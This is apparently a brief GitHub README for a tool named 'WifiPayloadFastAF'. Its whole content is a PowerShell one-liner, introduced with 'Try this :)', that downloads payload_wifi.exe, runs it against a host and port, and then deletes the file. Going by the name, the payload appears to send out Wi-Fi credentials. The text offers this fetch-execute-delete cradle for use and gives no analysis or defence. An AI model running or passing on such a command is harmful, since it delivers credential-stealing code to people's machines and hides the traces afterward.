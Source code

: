 # WifiPayloadFastAF

<h3>Try this :)</h3>
<code>Invoke-WebRequest 127.0.0.1:8000/payload_wifi.exe -outfile payload.exe; .\payload.exe {host} {port}; del payload.exe</code>
